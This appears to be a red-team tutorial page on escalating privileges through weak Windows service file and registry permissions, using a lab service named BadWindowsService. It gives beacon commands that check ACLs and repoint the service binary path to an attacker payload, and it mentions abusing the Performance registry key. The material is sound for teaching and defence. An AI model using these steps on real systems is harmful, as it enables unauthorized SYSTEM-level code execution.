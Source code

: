 
Mistakes can be made in the installation process for a service which can grant weak permissions, leading to elevation of privilege vulnerabilities.

## Service File Permissions

The binary that a service runs may have a weak ACE applied that allows standard users to modify it.  The ACE may be explicitly set on the binary itself, or inherited from its parent directory.  An adversary can simply overwrite the original binary with their own, and the Service Control Manager will execute it the next time the service is started [T1574.010](https://attack.mitre.org/techniques/T1574/010/)

```powershell
beacon> cacls "C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe"
C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe NT AUTHORITY\Authenticated Users:F
```

The difficulty in exploiting this is that the service binary cannot be overwritten whilst the service is already running.  It may be possible to stop and start the service but this would also be a non-default misconfiguration.

> This is obviously quite a destructive action because you're completely overwriting the service binary with your payload.

## Service Registry Permissions

When a new service is installed, an entry is written into the registry at `HKLM\SYSTEM\CurrentControlSet\Services`.  These keys hold the configuration for the service, such as the name, description, binary path, and start-up user.  If a weak ACE is granted on the service's registry key during installation, an adversary may be able to modify the service's configuration to execute their malicious payload [T1574.011](https://attack.mitre.org/techniques/T1574/011/)

```powershell
beacon> powerpick Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\BadWindowsService | fl

Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\BadWindowsService
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\Authenticated Users Allow  FullControl
         BUILTIN\Users Allow  ReadKey
         BUILTIN\Administrators Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         CREATOR OWNER Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  
         ReadKey
Audit  : 
Sddl   : O:BAG:SYD:AI(A;OICI;KA;;;AU)(A;CIID;KR;;;BU)(A;CIID;KA;;;BA)(A;CIID;KA;;;SY)(A;CIIOID;KA;;;CO)(A;CIID;KR;;;AC)
         (A;CIID;KR;;;S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934
         681)
```

A common way to do this is to simply change the binary path so that the service points to a completely different binary.

```powershell
beacon> sc_stop BadWindowsService
beacon> sc_config BadWindowsService C:\Path\to\Payload.exe 0 2
beacon> sc_start BadWindowsService
```

> A more left-field approach is to leverage a lesser-known registry key, such as _Performance_.  Discovered by [Clément Labro](https://itm4n.github.io/windows-registry-rpceptmapper-eop/), this key points to a DLL responsible for monitoring the performance of a service.  Since it's optional and more suitable for dev/test than prod, this is often not found in most service installations by default.  This means it can be added by an adversary without interfering with the service's normal operation.